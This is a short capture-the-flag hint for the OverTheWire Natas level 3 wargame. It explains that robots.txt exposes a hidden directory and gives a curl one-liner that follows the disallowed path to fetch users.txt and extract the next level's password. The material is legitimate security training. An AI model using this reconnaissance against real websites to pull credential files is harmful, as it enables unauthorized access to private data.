 ## Hints
Since they say not even search engines can leak the data, we target the publicly available `robots.txt` file for further information.

Doing so gives us information on which paths have been kept hidden.

```
natas4pass=$(curl -s -u natas3:$natas3pass http://natas3.natas.labs.overthewire.org"$(curl -s -u natas3:$natas3pass http://natas3.natas.labs.overthewire.org/robots.txt | grep Disallow: | sed 's/Disallow: //')"users.txt | sed 's/natas4://')
echo $natas4pass
```
